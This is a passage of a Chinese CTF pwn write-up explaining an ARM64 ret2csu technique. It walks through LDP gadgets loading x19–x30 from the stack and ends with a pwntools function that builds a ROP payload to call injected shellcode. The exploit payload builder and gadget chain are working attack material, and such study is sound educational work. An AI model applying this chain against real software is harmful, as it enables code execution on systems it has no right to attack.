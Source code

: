 [![](assets/1703209924-8423314eae7442ac05747e6ef846bab8.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231221164910-cecc7158-9fdd-1.png)  
然后这里就是类似于 csu 的 gadget

[![](assets/1703209924-323a36973c3703f0bf3dee0bb24ed3f3.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231221164917-d34ee9b8-9fdd-1.png)  
这一段 LDP X19, X20, \[SP,#var\_s10\]  
意思是将 sp+0x10 处数据给 x19，sp+0x18 处数据给 0x20  
以此类推，后面的汇编表示的是：  
将 sp+0x20 处数据给 x21，sp+0x28 处数据给 0x22  
将 sp+0x30 处数据给 x23，sp+0x38 处数据给 0x24  
将 sp 处数据给 x29，sp+0x8 处数据给 x30  
RET ; 返回 x30 寄存器中存放的地址/PC  
这一段的作用就是赋值

[![](assets/1703209924-d66e8502c8331bcc127a09d1aa8872d3.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231221164929-da334b02-9fdd-1.png)  
然后这一段就是利用 x21，x22，x23，x24 分别向 x3，x2，x1，x0 赋值，然后跳转到 x3 的地址，然后比较 x19 与 x20，相等不跳转  
第一次 read 输入 shellcode，然后第二次用 csu 去调用相应的函数和 shellcode

```plain
def csu(x19,x20,call_got,x2,x1,x0,call_shell):
    pl ='a' * offset
    pl += p64(csu_down)
    pl += p64(0) + p64(csu_up)
    pl += p64(x19) + p64(x20) #x19 x20
    pl += p64(call_got) + p64(x2) #x21 x22
    pl += p64(x1) + p64(x0) #x23 x24
    pl += p64(0) + p64(call_shell)
    pl += p64(0) * 6
    return pl
```
